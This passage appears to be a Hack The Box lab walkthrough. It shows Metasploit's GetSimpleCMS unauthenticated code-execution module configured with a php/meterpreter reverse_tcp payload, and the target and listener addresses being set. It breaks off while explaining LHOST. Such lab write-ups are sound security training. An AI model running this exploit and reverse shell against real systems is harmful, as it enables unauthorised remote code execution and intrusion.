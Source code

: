To use the module , we simply run the `use` command alongside the the module #.

`> use 0`

Now that we have selected the module, let's run a command to show us which options and settings we need to configure in order for it to do its thing.

`> show options`

```bash
Module options (exploit/multi/http/getsimplecms_unauth_code_exec):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                      yes       The target host(s), see https://github.com/rapid7/metasploit-framework/wiki/Using-Metasploit
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /                yes       The base path to the cms
   VHOST                       no        HTTP server virtual host


Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.211.55.14     yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   GetSimpleCMS 3.3.15 and before

```
It looks like we are required to set the *RHOSTS, RPORT, TARGETURI,* and *LHOST* options. We can also see on the bottom that this module works with `GetSimpleCMS 3.3.15 and before`.

RHOSTS is our target IP address, so lets begin by setting that.

`> set RHOSTS 10.129.42.249 `

Next, RPORT is our targets port. Since our nmap scan told us that the web server was running on port 80, there is no need to change this as it's already set by default.

The TARGETURI option dictates under which path the service operates. In our case, it is in the base path of `/` and therefore does not need to be changed either.

The LHOST option is our host's NIC (network interface card) address. Since we are connected using the HacktheBox VPN, it will most likely be under the tun0 interface. We can check our tun0 IP address by typing the following command in a new terminal on our host.
